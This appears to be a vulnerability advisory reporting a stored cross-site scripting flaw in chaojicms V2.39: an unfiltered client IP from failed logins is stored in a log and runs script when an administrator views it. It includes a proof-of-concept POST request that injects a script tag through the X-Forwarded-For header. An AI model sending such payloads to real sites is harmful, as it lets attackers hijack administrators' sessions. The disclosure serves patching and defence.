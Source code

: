 # Stored Cross-site scripting (XSS) vulnerability in chaojicms 

Vulnerability Name: chaojicms stored xss

Product Homepage: [http://www.chaojicms.com](http://www.chaojicms.com)

Software link: [http://www.chaojicms.com/index.php?api-web-index-freedown](http://www.chaojicms.com/index.php?api-web-index-freedown)

Version: V2.39

## 1.Technical Description:

The getClientIp function of /lib/tinwin.class.php does not filter the obtained ip, so we can insert the xss code

If the login fails in the checklogin function of /application/admin/controller/login.master.php, the ip will be added to the log, and the log can be viewed in the background.

```php
    public function addLoginLog($username,$status=1,$remark=''){
        $sip=$this->tinwin->getClientIp();
        $dsw=array(
            'addtime'=>time(),
            'login_ip'=>$sip,
            'username'=>$username,
            'login_status'=>$status,
            'remark'=>$remark
        );
        return $this->dbpdo->insert_data("userlogin",$dsw);
    }
```

So XSS is triggered when the administrator views the background login failure log.

![](images/cj2.png)

## 2.PoC

POST：

```
POST /index.php?admin-master-login-checklogin HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Connection: close
Referer: http://127.0.0.1:9000/index.php?admin-master-login
Cookie: PHPSESSID=b46b9fcca72e57528242bbc394672b95
Upgrade-Insecure-Requests: 1
X-Forwarded-For: </td><script>alert(1)</script><td>


dsw%5Busername%5D=1&dsw%5Bpsd%5D=1
```